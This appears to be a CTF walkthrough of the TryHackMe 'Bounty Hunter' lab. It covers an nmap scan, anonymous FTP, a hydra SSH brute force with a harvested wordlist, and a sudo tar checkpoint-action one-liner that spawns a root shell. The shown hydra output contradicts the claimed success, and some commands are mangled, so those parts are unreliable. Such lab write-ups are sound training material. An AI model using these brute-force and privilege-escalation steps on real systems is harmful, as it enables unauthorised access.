


# TryHackMe Bounty Hunter


{ .glightbox .center width="600" }
```
TryhackMe Machine:- Bounty Hunter
Machine Info:- 
Machine Level:- Easy
```

---
Lets start with an quick nmap scan and see which ports are open and working.

Nmap Scan

```bash
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3|
ftp-syst: |   STAT: | FTP server status:|      Connected 
to ::ffff:10.17.33.72|      Logged in as ftp|      TYPE: 
ASCII|No session bandwidth limit|      Session timeout in
seconds is 300| Control connection is plain text|      
Data connections will be plain text|      
At session startup, client count was 4|      vsFTPd 3.0.3
- secure, fast, stable|_End of status| ftp-anon: Anonymous 
FTP login allowed (FTP code 230)| -rw-rw-r--    1 ftp      
ftp           418 Jun 07  2020 locks.txt|_ -rw-rw-r--    1 ftp      ftp            
68 Jun 07  2020 task.txt22/tcp open  ssh    
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)| ssh-hostkey: |
2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)|
256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)|
_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))|_http-title: 
Site doesn't have a title (text/html).|_http-server-header: 
Apache/2.4.18 (Ubuntu)Aggressive OS guesses: HP P2000 G3 NAS device (91%), 
Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation 
WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Linux 5.0 (90%), Linux 5.1 (90%),
Ubiquiti AirOS 5.5.9 (90%), Linux 5.0 - 5.4 (89%), Ubiquiti Pico Station WAP
(AirOS 5.2.6) (89%)No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hopsService Info: OSs: Unix, Linux; CPE: cpe:/
o:linux:linux_kernelTRACEROUTE (using port 80/tcp)HOP RTT       ADDRESS1   
22.96 ms  10.17.0.12   ... 45   145.37 ms 10.10.0.198OS and Service detection 
performed. Please report any incorrect results at https://nmap.org/submit/ .Nmap 
done: 1 IP address (1 host up) scanned in 33.70 seconds
```

We can see in the nmap result that ftp port 21 and ssh port 22 is open firstly im going to try ftp into the machine.

FTP into the machine.

The FTP is accessible try login with anonymous. command :-

Ftp <IP_Address> when asked for user enter anonymous.

```bash
ftp> ls -la200 PORT command successful. Consider using PASV.150 
Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt226 
Directory send OK.ftp>
```

We got 2 files in afte we successfully logined in into the ftp server.

Get the files locks.txt and task.txt they are needed in further enumeration.

```bash
get task.txtget locks.txt
```

After this we analysed the files and in task.txt we found a user (lin).

```bash
$ cat task.txt1.) Protect Vicious.2.) Plan for Red Eye pickup on the moon.-lin
```

locks.txt Clearly looks like a wordlist so we will use it for bruteforce.

```bash
*$ cat locks.txt* 
- rEddrAGON- ReDdr4g0nSynd!cat3
- Dr@gOn$yn9icat3
- R3DDr46ONSYndIC@Te- ReddRA60N
- R3dDrag0nSynd1c4te- dRa6oN5YNDiCATE
- ReDDR4g0n5ynDIc4te- R3Dr4gOn2044
- RedDr4gonSynd1cat3- R3dDRaG0Nsynd1c@T3
- Synd1c4teDr@g0n- reddRAg0N
- REddRaG0N5yNdIc47e- Dra6oN$yndIC@t3
- 4L1mi6H71StHeB357- rEDdragOn$ynd1c473
- DrAgoN5ynD1cATE- ReDdrag0n$ynd1cate
- Dr@gOn$yND1C4Te- RedDr@gonSyn9ic47e
- REd$yNdIc47e- dr@goN5YNd1c@73
- rEDdrAGOnSyNDiCat3- r3ddr@g0N- ReDSynd1ca7e
```

I used hydra to brute force ssh login using the user name lin and the wordlist locks.txt.

```bash
hydra -l lin -P locks.txt <IP_Address> ssh
```

```bash
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak 
- Please do not use in military or secret service organizations, 
or for illegal purposes (this is non-binding, these 
*** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) 
starting at 2021-12-22 21:45:38[DATA] max 16 tasks per 1 server,
overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task[DATA] attacking ftp://10.10.0.198:21/1 of 1 target completed, 0 valid password foundHydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 21:45:39
```

We found the password and login via ssh we see the user flag we just cat the user flag user.txt — THM{userflag}.

Now we need to escalate our privilege we can exploit lin’s sudo privilege.

```bash
lin@bountyhacker:~$ sudo -l[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:    
env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:
/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser 
lin may run the following commands on bountyhacker:    
(root) /bin/tar
```

I searched more on tar sudo privilege escaltion and found this.

just run the following command.

```bash
sudo tar -cf /dev/null /dev/null - checkpoint=1 - checkpoint-action=exec=/bin/sh
```

{ .glightbox .center width="500" }
Now we have a root access you can see by typing :- sudo -l.

And got the root access and the root flag.

{ .glightbox .center width="500" }
Thank you for reading
